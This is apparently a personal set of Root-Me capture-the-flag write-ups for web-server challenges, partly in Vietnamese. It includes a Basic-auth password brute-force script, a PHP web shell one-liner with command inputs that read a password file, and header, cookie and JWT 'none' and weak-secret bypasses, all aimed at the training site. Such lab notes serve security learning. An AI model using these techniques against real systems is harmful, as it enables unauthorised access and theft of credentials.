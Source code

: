 ```yaml
---
description: 'Note : A JOURNEY TO GAIN KNOWLEDGE'
---
```


# 🏝 Rootme

## Web - Server

### [HTML - Source code](https://www.root-me.org/en/Challenges/Web-Server/HTML-Source-code)

F12 for flag

### [HTTP - IP restriction bypass](https://www.root-me.org/en/Challenges/Web-Server/HTTP-IP-restriction-bypass)

``[`document`](https://medium.com/r3d-buck3t/bypass-ip-restrictions-with-burp-suite-fb4c72ec8e9c)``

![](<../.gitbook/assets/image (39) (1).png>)

> **Syntax: X-Forwarded-For: \<client>,\<proxy1>,\<proxy2>,\<proxy3>**

Change IP at client to private IP by adding _**an X-Forwarded-For**_ header

![](<../.gitbook/assets/image (13) (2).png>)

### [HTTP - Open redirect](https://www.root-me.org/en/Challenges/Web-Server/HTTP-Open-redirect)

![](<../.gitbook/assets/image (35).png>)

It combines URL and hash md5 of that one, so that we just put other URL and hash of it.

![](<../.gitbook/assets/image (29) (1).png>)

### HTTP - User-agent

change User-Agent to \`admin\`

![](<../.gitbook/assets/image (18).png>)

### Weak password

```
import requests
from requests.auth import HTTPBasicAuth
url = "http://challenge01.root-me.org/web-serveur/ch3/"
usr = "admin"
words = open('common_password.txt','r').read().split('\n')
cnt =1
for pwd in words:
	print(pwd,cnt)
	
	res = requests.get(url, auth=HTTPBasicAuth(usr, pwd))
	
	if "401" not in res.text:
		print('Password is ' + pwd)
		break
	cnt +=1
```

![](<../.gitbook/assets/image (39).png>)

### PHP - Command injection

![](<../.gitbook/assets/image (32) (2).png>)

![](<../.gitbook/assets/image (33).png>)

``[`document`](https://portswigger.net/web-security/os-command-injection)``

### Backup file

Use dirsearch find some interesting files:

![](<../.gitbook/assets/image (24).png>)

> /web-serveur/ch11/index.php\~

### HTTP - Directory indexing

> [http://challenge01.root-me.org/web-serveur/ch4/admin/backup/admin.txt](http://challenge01.root-me.org/web-serveur/ch4/admin/backup/admin.txt)
>
>

![](<../.gitbook/assets/image (5) (3).png>)

### HTTP - Headers

With normal request we will get:

![](<../.gitbook/assets/image (1) (2).png>)

add Header to request:

> Header-RootMe-Admin: True

![](<../.gitbook/assets/image (32).png>)

### HTTP - POST

![](<../.gitbook/assets/image (2).png>)

### HTTP - Improper redirect

Capture before it redirect

![](<../.gitbook/assets/image (3).png>)

### HTTP - Verb tampering

Ban đầu tưởng bruteforce ngồi xài hydra và cái rockyou.txt ra spam cả tiếng&#x20;

![](<../.gitbook/assets/image (5).png>)

temper ở đây là chỉ cần đổi method khác ngoài GET và POST là được, cứ PUT với DELETE mà phang

![](<../.gitbook/assets/image (10).png>)

### File upload - Double extensions

```
<?php echo shell_exec($_GET['cmd']); ?>
```

set file.php.png and send to the server

![](<../.gitbook/assets/image (16) (3).png>)

```
?cmd=cd;cat .passwd
```

### File upload - MIME type

![](../.gitbook/assets/image.png)

Change Content-Type to image/png and rce

```
?id=cd;cat .passwd
```

### HTTP - Cookies

![chan](<../.gitbook/assets/image (1).png>)

change cookie from `visiteur` to `admin`

### JSON Web Token (JWT) - Introduction

![](<../.gitbook/assets/image (45).png>)

"none" signature algorithms

### Directory traversal

![](<../.gitbook/assets/image (7).png>)

Try with ../ and fuzz

### JSON Web Token (JWT) - Weak secret

![](<../.gitbook/assets/image (46).png>)

bruteforce secret key: lol

![sign new signature](<../.gitbook/assets/image (4).png>)

POST and look for the flag hm....

![](<../.gitbook/assets/image (11).png>)


